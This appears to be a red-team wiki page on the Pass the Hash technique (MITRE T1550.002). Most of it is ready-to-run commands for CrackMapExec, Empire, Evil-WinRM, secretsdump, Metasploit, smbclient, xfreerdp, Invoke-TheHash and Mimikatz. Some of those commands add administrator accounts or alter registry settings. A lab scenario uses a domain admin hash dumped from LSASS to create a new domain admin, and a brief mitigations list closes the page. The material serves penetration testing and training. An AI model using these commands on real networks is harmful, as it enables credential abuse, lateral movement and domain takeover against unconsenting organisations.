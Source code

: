 ```yaml
---
description: https://attack.mitre.org/techniques/T1550/002/
---
```


# Pass The Hash

**ATT\&CK ID:** [T1550.002](https://attack.mitre.org/techniques/T1550/002/)

**Permissions Required:** <mark style="color:green;">**Valid account hash**</mark>

#### Description

Adversaries may "pass the hash" using stolen password hashes to move laterally within an environment, bypassing normal system access controls. Pass the hash (PtH) is a method of authenticating as a user without having access to the user's clear text password. This method bypasses standard authentication steps that require a clear text password, moving directly into the portion of the authentication that uses the password hash.

When performing PtH, valid password hashes for the account being used are captured using a Credential Access technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems.

Adversaries may also use stolen password hashes to "overpass the hash." Similar to PtH, this involves using a password hash to authenticate as a user but also uses the password hash to create a valid Kerberos ticket. This ticket can then be used to perform Pass the Ticket attacks.

[\[Source\]](https://attack.mitre.org/techniques/T1550/002/)

## Techniques (Linux)

### Crackmapexec

```bash
crackmapexec smb <IP> -u <User> -H <NTLM>
crackmapexec smb '10.10.10.100' -u 'moe' -H '58a478135a93ac3bf058a5ea0e8fdb71'

# local account login
crackmapexec smb <IP> -u <User> -H <NTLM> --local-auth
crackmapexec smb '10.10.10.100' -u 'moe' -H '58a478135a93ac3bf058a5ea0e8fdb71' --local-auth
```

![](<../../../../.gitbook/assets/image (466).png>)

### Empire

```bash
usemodule lateral_movement/invoke_smbexec

# Parameters
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set ComputerName '10.10.10.100'
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set Domain security.local
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set Listener http
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set Hash 58a478135a93ac3bf058a5ea0e8fdb71
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set Username moe
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > execute
```

![](<../../../../.gitbook/assets/image (563).png>)

### Evil-WinRM

```bash
evil-winrm -i <IP> -u <User> -H <NThash>
evil-winrm -i '10.10.10.100' -u 'moe' -H '58a478135a93ac3bf058a5ea0e8fdb71'
```

![](<../../../../.gitbook/assets/image (110).png>)

### LDAP&#x20;

```bash
secretsdump.py <User>@<IP> -hashes <Hash>
secretsdump.py moe@10.10.10.100 -hashes aad321b35b51404eeaad982b5b51404ee:b38ff50264b7458734d82c69794a4d8
```

![](<../../../../.gitbook/assets/image (1031).png>)

### Metasploit

```bash
use exploit/windows/smb/psexec

# Set hash as password
set smbpass "aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71"
```

![](<../../../../.gitbook/assets/image (99).png>)

### smbclient

```bash
smbclient //<IP>/<Share> -U <User> --pw-nt-hash <Hash> -W <Domain>
smbclient '//10.0.0.100/IT' -U 'moe' --pw-nt-hash '58a478135a93ac3bf058a5ea0e8fdb71' -W 'security.local'
```

### xFreeRDP

This method requires "Restricted Admin Mode" enabled on the target system.

```bash
xfreerdp /v:10.10.10.100 /u:moe /pth:58a478135a93ac3bf058a5ea0e8fdb71
```

```bash
# Enable restricted admin mode, requires elevated permissions.
crackmapexec smb '10.10.10.100' -u 'moe' -H '58a478135a93ac3bf058a5ea0e8fdb71' -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

## Techniques (Windows)

### Invoke-TheHash

```powershell
# SMB Options
# Check SMB signing
Invoke-TheHash -Type SMBExec -Target '[IP]'
Invoke-TheHash -Type SMBExec -Target [CIDR]

# Check for command execution 
Invoke-TheHash -Type SMBExec -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target '[IP]'
Invoke-TheHash -Type SMBExec -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target [CIDR]

# Pass hash to target and execute specified command 
Invoke-TheHash -Type SMBExec -Command "net user /add Pentest Password123 && netlocal group Administrators /add Pentest" -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target '[IP]' 
Invoke-TheHash -Type SMBExec -Command "net user /add Pentest Password123 && netlocal group Administrators /add Pentest" -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target [CIDR]

 # Enumerate SMB Shares / Users / Net Sessions 
Invoke-SMBEnum -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target '[IP]'
Invoke-SMBEnum -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target [CIDR]

# WMI Options
# Check for command execution (WMI)
Invoke-TheHash -Type WMIExec -Username '[Username]' -Hash '[NTLM-Hash]' -Target '[IP]'
Invoke-TheHash -Type WMIExec -Username '[Username]' -Hash '[NTLM-Hash]' -Target [CIDR]

 # Pass hash to target and execute specified command (WMI)
Invoke-TheHash -Type WMIExec -Command "net user /add Pentest Password123 && netlocal group Administrators /add Pentest" -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target '[IP]'
Invoke-TheHash -Type WMIExec -Command "net user /add Pentest Password123 && netlocal group Administrators /add Pentest" -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target [CIDR]

```

### Mimikatz

```bash
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<User> /domain:<Domain> /ntlm:<NTLM> /run:powershell.exe"'
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Moe /domain:Security.local /ntlm:58a478135a93ac3bf058a5ea0e8fdb71 /run:powershell.exe"'
```

## Scenario

In the following scenario we have compromised a Windows 2019 member server SRV01.Security.local and escalated privileges to the local administrator account. We then dumped credentials from LSASS memory using `Mimikatz` and have obtained the NTLM password hash for the Domain Administrator "Moe".

#### LSASS Memory Credential Dumping

{% content-ref url="../../credential-access/Credential-Dumping/lsass-memory.md" %}
[lsass-memory.md](../../credential-access/Credential-Dumping/lsass-memory.md)
{% endcontent-ref %}

We are working as the local administrator on SRV01 so we are unable to perform administrative function on the Domain.

As we have the NTLM hash for the Domain Administrator "Moe" we are able to use Mimikatz to Pass-The-Hash to a new process such as PowerShell.

By doing so we are able to then use the newly spawned PowerShell process to perform domain administrative functions.

Under our local administrator account and as expected, we are unable to create a new domain user.

![](../../../../.gitbook/assets/Access-Denied.png)

Next we Pass-The-Hash for the Domain Administrator Moe:

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Moe /domain:Security.local /ntlm:58a478135a93ac3bf058a5ea0e8fdb71 /run:powershell.exe"'
```

![](../../../../.gitbook/assets/Invoke-Mimikatz.png)

Which opens a new PowerShell process for us. Where, we still notice we are running as the local administrator on the member server SRV01 however, we now have the ability to work as the Domain Administrator Moe and create a new domain user and add them to the "Domain Admins" group.

![](../../../../.gitbook/assets/New-DomainAdmin.png)

## Mitigation

* Enable Windows Credential Guard
* Deploy Microsoft LAPS
* Disable LM/NTLM authentication in the environment
* Reduce amount of cached logon passwords stored
* Limit administrative users in the domain / locally.

### Further Reading

**Mitigating Pass-the-Hash (PtH) Attacks and Other Credential Theft Techniques v2:** [Download](https://download.microsoft.com/download/7/7/A/77ABC5BD-8320-41AF-863C-6ECFB10CB4B9/Mitigating-Pass-the-Hash-Attacks-and-Other-Credential-Theft-Version-2.pdf)
